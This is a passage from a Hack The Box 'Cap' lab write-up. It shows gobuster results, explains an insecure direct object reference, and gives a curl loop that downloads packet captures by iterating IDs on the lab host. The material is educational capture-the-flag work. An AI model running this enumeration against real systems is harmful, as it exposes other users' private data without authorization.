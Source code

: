![Cap Network Status](../../../assets/2021-10-07-hack-the-box-cap/dashboard-network-status.png)

The result of the `gobuster` scan doesn't reveal anything new or hidden. All paths uncovered via the scan we already found doing manual recon:

```sh
$ cat gobuster.txt

/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17366]
/capture              (Status: 302) [Size: 220] [--> http://10.10.10.245/data/4]
```

## Getting a shell as user

As far as the enumeration goes, we didn't discover all that much. We got a couple of pages that mostly return some static information. But the `/capture` page is a rather interesting one. Reloading the page a few times it starts redirecting to different pages over time. Initially, it redirected to `/data/3`, but after a few more gobuster scans and that id started going. All gobuster information start from id 3, this makes me wonder what pcap files are available before id 3. This is what they call an IDOR insecure direct object reference. It is a vulnerability that allows an attacker to manipulate a URL or a parameter to a request to access objects they aren't supposed to access.

With `curl` it's possible to quickly download all available pcap files:

```sh
$ seq 0  10 | xargs -I% bash -c "curl -L http://10.10.10.245/download/% -s -o %.pcap; echo 'Downloaded %.pcap'"

Downloaded 0.pcap
Downloaded 1.pcap
Downloaded 2.pcap
Downloaded 3.pcap
Downloaded 4.pcap
Downloaded 5.pcap
Downloaded 6.pcap
Downloaded 7.pcap
Downloaded 8.pcap
Downloaded 9.pcap
Downloaded 10.pcap
```
